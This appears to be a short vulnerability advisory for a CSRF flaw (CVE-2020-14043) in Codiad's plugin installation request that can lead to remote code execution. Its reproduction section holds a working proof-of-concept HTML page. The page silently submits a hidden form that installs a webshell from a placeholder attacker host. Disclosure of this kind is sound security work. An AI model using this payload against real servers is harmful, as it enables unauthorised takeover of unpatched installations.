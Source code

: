```yaml
---
title: Codiad CSRF in the plugin request
date: 2020-08-20
tags:
	- "php"
	- "csrf"
	- "rce"
	- "webshell"
advisory: true
origin: https://advisory.checkmarx.net/advisory/CX-2020-4279/
cves:
	- "CVE-2020-14043"
---
```

## Summary
A Cross Side Request Forgery (CSRF) vulnerability was found in Codiad. The request to download a plugin from the marketplace is only available to admin users and it isn’t CSRF protected. This might cause admins to make a vulnerable request without them knowing and result in an RCE.

## Product
Codiad from v1.7.8.

## Impact
An malicious link sent to the an admin can result in a webshell on the server.

## Steps to reproduce
```
<html><head></head>
<body>
<form style="opacity: 0;" action="http://[Codiad-url]/components/market/controller.php?action=install&type=&name=Manually&repo=http://evilWebSite/webshell/webshell.zip?a=" method="GET">
<button>submit</button>
</form>
<script>document.querySelector('form').submit();</script>
</body></html>
```

### Expected result:
A webshell from ```http://evilWebSite/webshell/webshell.zip``` will be downloaded to the server.

## Remediation
There is no fixed version of Codiad.

## Credit
This issue was discovered and reported by Checkmarx SCA Security Researcher [Yaniv Nizry](https://twitter.com/ynizry).

## Resources
1. [Issue](https://github.com/Codiad/Codiad/issues/1122)
